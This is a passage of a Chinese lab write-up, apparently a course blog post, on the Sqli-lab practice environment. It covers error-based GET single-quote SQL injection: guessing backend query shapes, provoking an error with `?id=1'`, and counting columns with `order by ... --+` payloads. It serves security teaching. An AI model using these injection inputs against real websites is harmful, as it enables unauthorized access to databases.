 ```yaml
---
layout:     post   				    
title:      【信息系统安全】Sqli-lab SQL注入		
subtitle:   
date:       2021-12-13 				
author:     慕念 						
header-img: img/post-bg-computer-ml.jpg	
catalog: true 						
tags:								
    - 信息系统安全
---
```


GET型正确的sql语句一般为：

```sql
select * from table where id = 'input'
select * from table where id = "input"
select * from table where id = ("input")
select * from table where id = ('input')
select * from table where id = ("'input'")
```

通过这些进行猜测。



## 实验一	基于错误的GET单引号字符型注入

![image-20211207081858608](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051945.png)

页面中黄字提示输入ID作为参数，输入`?id=1`：

![image-20211207081948918](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051952.png)

输入`?id=1'`，前端有报错回显：`near ''1'' LIMIT 0,1' at line 1`，猜测sql后台语句为`select * from table where id='input'`，判断是字符型注入。

![image-20211207082113353](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051027.png)


### 1、手工注入

#### 用 order by 判断字段数

`?id=1' order by 3 --+`回显正常

![image-20211207084204085](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051092.png)

`?id=1' order by 4 --+`回显报错，说明字段数为3

![image-20211207084302301](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020051736.png)

##### ⭐注意
